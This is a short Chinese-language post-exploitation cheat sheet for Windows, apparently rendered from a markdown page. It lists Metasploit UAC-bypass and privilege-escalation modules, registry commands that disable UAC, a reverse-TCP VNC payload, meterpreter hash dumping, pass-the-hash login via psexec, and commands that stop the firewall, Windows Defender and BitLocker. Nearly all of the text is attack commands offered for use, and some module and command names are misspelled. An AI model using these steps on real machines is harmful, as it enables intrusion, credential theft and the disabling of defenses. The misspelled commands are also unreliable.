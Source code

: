 ## 后渗透阶段

**绕过UAC**

```swift
exploit/windows/local/ask
set filename => winupdate.exe

exploit/windows/local/bypassuac
exploit/windows/local/bupassuac_injection

//通过注册表项
cmd.exe /k %windir%\System32\reg.exe ADD HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System /v EnableLUA /t REG_DWORD /d 0 /f
cmd.exe /k %windir%\System32\reg.exe ADD HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System /v LocalAccountTokenFilterPolicy /t REG_DWORD /d 1 /f
```

**基于已有Session提权**

```swift
exploit/windows/local/ms13_053_schlamperei      //win7
exploit/windows/local/ms13_081_track_popup_menu
exploit/windows/local/ms13_097_ie_registry_symlik
exploit/windows/local/ppr_flatten_rec
```

**Graphical Payload**

```swift
payload/windows/vncinject/reverse_tcp
```

**Hash Dump**

```swift
meterpreter>> load priv
meterpreter>> hash dump
```

**哈希密文登录**

```swift
exploit/windows/smb/psexec
set smbpass => [hash]
//需关闭UAC
```

**关闭firewall**

```swift
//需admin/system权限
netsh advfirewall set allprofiles state on/off
net stop windefend
```

**磁盘加密Bitloker**

```swift
manage-bde -off c:
manage-bge -status c:
```
